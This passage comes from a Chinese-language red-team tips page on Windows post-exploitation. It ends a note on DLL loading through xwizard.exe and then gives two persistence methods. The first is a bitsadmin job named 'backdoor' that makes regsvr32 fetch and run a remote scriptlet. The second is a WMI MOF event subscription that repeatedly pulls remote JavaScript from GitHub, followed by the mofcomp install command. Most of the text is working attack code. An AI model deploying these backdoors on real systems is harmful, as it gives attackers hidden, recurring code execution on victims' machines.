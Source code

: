 成功加载C:\x\xwizards.dll

参考：

[《Use xwizard.exe to load dll》](https://3gstudent.github.io/3gstudent.github.io/Use-xwizard.exe-to-load-dll/)

---

### Tips 30. Windows Persistence

#### 方法1：bitsadmin

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

参考：

《Use bitsadmin to maintain persistence and bypass Autoruns》

#### 方法2：mof

```
pragma namespace("\\\\.\\root\\subscription")    
instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP1";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 1";
    QueryLanguage = "WQL";
};    
instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consP1";
    ScriptingEngine = "JScript";
    ScriptText = "GetObject(\"script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test\")";
};    
instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```

管理员权限：

```
mofcomp test.mof
```
